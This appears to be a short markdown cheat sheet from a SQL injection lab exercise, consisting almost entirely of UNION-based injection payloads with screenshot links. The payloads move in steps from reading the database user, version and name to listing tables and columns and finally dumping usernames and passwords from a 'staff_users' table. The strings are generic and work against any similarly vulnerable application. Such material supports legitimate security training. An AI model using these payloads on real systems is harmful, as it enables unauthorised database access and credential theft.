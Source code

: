 ## USER() Function

```sql
0 union select 1,2,USER()
```

![](https://i.imgur.com/sTmu31K.png)

## VERSION() Function

```sql
0 union select 1,2,VERSION()
```

![](https://i.imgur.com/EmefV8j.png)

## DATABASE() Function

```sql
0 union select 1,2,DATABASE()
```

![](https://i.imgur.com/Rfux2XG.png)

## TABLES

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

![](https://i.imgur.com/rsUIsyM.png)

## COLUMNS

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

![](https://i.imgur.com/9PGbOO7.png)

## DATA

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

![](https://i.imgur.com/l9ezGZS.png)

-----------------
